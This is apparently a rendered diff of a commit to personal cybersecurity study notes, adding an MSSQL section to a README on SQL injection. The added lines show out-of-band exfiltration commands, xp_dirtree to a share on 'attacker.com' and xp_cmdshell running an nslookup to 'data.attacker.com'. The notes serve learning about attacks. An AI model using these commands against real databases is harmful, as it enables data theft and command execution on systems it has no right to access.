

Before and after one commit to JS0ff/cybersecurity_notes, a Markdown page: sql_injections_intro/README.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
take notes on MSSQL techniques

```diff
--- a/sql_injections_intro/README.md
+++ b/sql_injections_intro/README.md
@@ -265,3 +265,13 @@ Uses LOAD_FILE() to trigger DNS lookup.
 `SELECT database()` => pulls database name
 `CONCAT()` => builds string
 `LOAD_FILE()` => reading the file path
+
+### MSSQL Techniques (Microsoft SQL)
+
+`xp_dirtree` => triggers dns lookup by trying to show the list on a remote server
+
+`EXEC master..xp_dirtree '\\attacker.com\share';`
+
+`xp_cmdshell` => triggers command running, turned off by default
+
+`EXEC xp_cmdshell 'nslookup data.attacker.com';`
```
